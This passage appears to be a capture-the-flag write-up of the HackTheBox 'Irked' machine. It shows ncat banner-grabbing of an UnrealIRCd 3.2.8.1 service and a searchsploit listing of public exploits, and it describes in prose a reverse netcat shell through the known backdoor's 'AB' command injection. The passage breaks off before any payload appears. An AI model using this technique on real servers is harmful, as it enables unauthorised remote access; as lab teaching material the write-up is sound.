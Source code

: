 Connecting to port 6697 allowed me to fingerprint the IRC server's version number. I used this [article as a reference](https://book.hacktricks.xyz/pentesting/pentesting-irc):

```
kali@kali:~/htb/machines/irked/irc$ ncat 10.10.10.117 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...

w:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
USER
:irked.htb 461  USER :Not enough parameters

USER ran213eqdw123 0 * ran213eqdw123
NICK ran213eqdw123
:irked.htb 001 ran213eqdw123 :Welcome to the ROXnet IRC Network ran213eqdw123!ran213eqdw@10.10.14.18
:irked.htb 002 ran213eqdw123 :Your host is irked.htb, running version Unreal3.2.8.1
:irked.htb 003 ran213eqdw123 :This server was created Mon May 14 2018 at 13:12:50 EDT
:irked.htb 004 ran213eqdw123 irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
:irked.htb 005 ran213eqdw123 UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:irked.htb 005 ran213eqdw123 WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:irked.htb 005 ran213eqdw123 EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
:irked.htb 251 ran213eqdw123 :There are 1 users and 0 invisible on 1 servers
:irked.htb 255 ran213eqdw123 :I have 1 clients and 0 servers
:irked.htb 265 ran213eqdw123 :Current Local Users: 1  Max: 1
:irked.htb 266 ran213eqdw123 :Current Global Users: 1  Max: 1
:irked.htb 422 ran213eqdw123 :MOTD File is missing
:ran213eqdw123 MODE ran213eqdw123 :+iwx
```

From the output above, I deduced that the service version was `Unreal3.2.8.1` which had exploits publicly available:

```
$ searchsploit unreal
... CONTENT SNIPPED ...
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                              | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                                                                                                   | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                                                                                            | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                                                                                                 | windows/dos/27407.pl
... CONTENT SNIPPED ...
```

The `UnrealIRCd 3.2.8.1 - Remote Downloader/Execute` exploit didn't work too well, so I exploited it manually since it looks like you need to send the payload shortly after establishing the TCP connection. Basically, you can abuse the backdoor trojan via command injection on the `AB` macro. I was able to invoke a reverse netcat shell this way:
